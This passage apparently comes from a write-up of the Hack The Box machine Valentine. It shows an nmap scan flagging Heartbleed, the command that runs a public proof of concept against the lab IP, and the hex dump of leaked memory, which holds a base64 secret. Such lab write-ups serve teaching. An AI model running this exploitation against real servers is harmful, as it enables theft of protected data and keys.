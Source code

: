 ```perl
  46   │ |   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
  47   │ |     State: VULNERABLE
  48   │ |     Risk factor: High
  49   │ |       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the
       │ vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
  50   │ |
  51   │ |     References:
  52   │ |       http://www.openssl.org/news/secadv_20140407.txt
  53   │ |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
  54   │ |_      http://cvedetails.com/cve/2014-0160/
  55   │
```

We can observe that there are some vulnerabilities associated with the **ssl** website. 

One especially called my attention, checking the scan we can see that is vulnerable to **heartbleed**. This make sense because if we take a look at the homepage’s picture the heart bleeding gives us an clue of that vulnerability.

**Heartbleed** vuln is a security bug in some outdated versions of the **OpenSSL** cryptography library, which is a widely used implementation of the **Transport Layer Security protocol**. The vulnerability was classified as a buffer over-read, a situation where more data can be read than should be allowed.

![Untitled](/HTB/valentine-5.png)

Googling we can find a **github** [exploit](https://github.com/mpgn/heartbleed-PoC) which fits well.

```bash
python2 heartbleed-exploit.py 10.10.10.79
```

Executing the exploit, the exploit start by sending the handshake and after that send a crafted **heartbleed** request and the server answer with the data leak is outputted in a file called out.txt

Once executed we retrieve the following data

```
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 3F  mV0aGVoeXBlCg==?
  0160: 23 66 17 BF 98 D1 4E C4 D9 A3 DE 86 47 94 A6 26  #f....N.....G..&
  0170: 38 38 88 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  88..............
```